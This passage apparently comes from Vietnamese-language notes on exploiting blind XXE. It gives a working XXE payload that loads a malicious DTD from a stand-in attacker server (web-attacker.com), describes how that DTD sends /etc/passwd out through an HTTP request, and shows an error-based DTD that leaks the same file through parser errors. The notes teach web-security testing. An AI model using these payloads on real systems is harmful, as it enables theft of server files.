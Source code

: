 - Định nghĩa một **XML parameter entity** tên `file`, chứa nội dung của tệp `/etc/passwd`.  
- Định nghĩa một **XML parameter entity** tên `eval`, chứa một khai báo động của một **XML parameter entity** khác tên `exfiltrate`.  
  - Thực thể `exfiltrate` sẽ được thực thi bằng cách gửi một **yêu cầu HTTP tới máy chủ web của kẻ tấn công**, kèm giá trị của thực thể `file` trong **URL query string**.  
- Gọi thực thể `eval`, hành động này sẽ **tạo động thực thể `exfiltrate`**.  
- Gọi thực thể `exfiltrate`, để thực thể này được **thực thi bằng cách gửi yêu cầu HTTP tới URL đã chỉ định**.

Sau đó, kẻ tấn công phải lưu trữ DTD độc hại trên hệ thống do chúng kiểm soát, thường bằng cách tải nó lên máy chủ web của chúng. Ví dụ: kẻ tấn công có thể gửi DTD độc hại đến URL sau:
```http://web-attacker.com/malicious.dtd```

Cuối cùng, kẻ tấn công phải gửi đoạn mã XXE sau tới ứng dụng dễ bị tấn công:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```
**Giải thích**
- Payload này định nghĩa xxe trỏ tới `malicious.dtd.`
- Parser sẽ tải DTD bên ngoài và thực thi inline.
- Các bước trong `malicious.dtd` chạy và gửi nội dung `/etc/passwd` tới máy chủ của attacker.

Tải trọng XXE này khai báo một thực thể tham số XML có tên là xxe và sau đó sử dụng thực thể này trong DTD. Điều này sẽ khiến trình phân tích cú pháp XML lấy DTD bên ngoài từ máy chủ của kẻ tấn công và diễn giải nó nội tuyến. Các bước được xác định trong DTD độc hại sau đó được thực thi và tệp /etc/passwd được truyền đến máy chủ của kẻ tấn công.

---

### ⚡ Khai thác blind XXE để lấy dữ liệu thông qua thông báo lỗi
- Cách khác để khai thác **blind XXE** là **gây lỗi XML parser** để **thông báo lỗi chứa dữ liệu nhạy cảm** (vd: `/etc/passwd`).  
- Hiệu quả nếu **ứng dụng trả về lỗi parser trong phản hồi**.

Bạn có thể **gây lỗi XML parser** để **thông báo lỗi chứa nội dung `/etc/passwd`** bằng một **DTD độc hại** như sau:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

#### 📌 Cách hoạt động

- Định nghĩa `file` đọc nội dung của `/etc/passwd`.  
- Định nghĩa `eval` chứa một khai báo động cho entity `error`.  
- `error` sẽ cố tải một tệp **không tồn tại** có tên chứa giá trị của `file`.  
- Gọi `%eval;` để tạo entity `error`.  
- Gọi `%error;` để parser cố tải tệp không tồn tại → **gây lỗi**.  
- **Thông báo lỗi** sẽ chứa **tên tệp không tồn tại**, chính là **nội dung `/etc/passwd`**.
